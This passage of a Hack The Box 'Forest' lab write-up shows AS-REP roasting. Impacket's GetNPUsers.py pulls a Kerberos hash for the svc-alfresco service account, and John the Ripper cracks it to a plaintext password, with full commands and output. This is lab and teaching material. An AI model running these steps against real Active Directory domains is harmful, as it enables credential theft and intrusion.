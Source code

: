 

## Exploitation and Gaining Access

Since Kerberos is available and we saw krbtgt user, let's check if all accounts have Kerberos Pre-Authentication enabled. By default, Kerberos Pre-Authentication is enabled, and has to be manually disabled per account (to my understanding). A great explanation was done by one of the Hack The Box members (kudos to VbScrub) and is worth watching, [GetNPUsers & Kerberos Pre-Auth Explained](https://www.youtube.com/watch?v=pZSyGRjHNO4&feature=youtu.be). Using GetNPUsers.py will help us test this and if one is found, it will let us retrieve their TGT to then crack it. ***Kerberoasting***


### GETNPUSERS
```
root@kali:~/Documents/HTB-Labs/Forest# /opt/impacket/examples/GetNPUsers.py -request -dc-ip forest.htb htb.local/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2020-01-09 22:58:26.322079  2019-09-23 07:09:47.931194  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:d9644faaaaef08d897e27b1127542f8e$8bdfa55873701bfda60228e02bedfb6e5c54c7eafcd7ad8e51363be34369238db71975d4ac5635aead39b406d8a57cd2e6dafe9f8e9925d7e3dcb03bc8c978df96afa8818e0e811a525fedcbd9f0207c1f146c36130959e6984f67b7559724fb236ac6aef8fc53a74ee553f6960b096207ee28765eeba436340f6f205c7fb7f3e56880ce104ae6908d1131d6193c99a43e46b4c9fa39357d95cea9cefbc94f5fc01b54247761a10ec947ae3fe79a38c075f776000b095cdc797c65784e08f66acf98538ca0bdd292165936d8c1b285fb71ecf826544e7f58b380d0d1acf364d32fb73c07222c
```

We just found the user **htb.local\svc-alfresco** (a service account) and its TGT; let's try to crack it


### JOHN THE RIPPER
```
root@kali:~/Documents/HTB-Labs/Forest# john --wordlist=/usr/share/wordlists/rockyou.txt Forest_TGT_svc-alfresco.txt > Forest_svc-alfrescoCreds.txt
Using default input encoding: UTF-8
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:05 DONE (2020-01-09 23:02) 0.1692g/s 691329p/s 691329c/s 691329C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/Documents/HTB-Labs/Forest# cat Forest_svc-alfrescoCreds.txt
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```
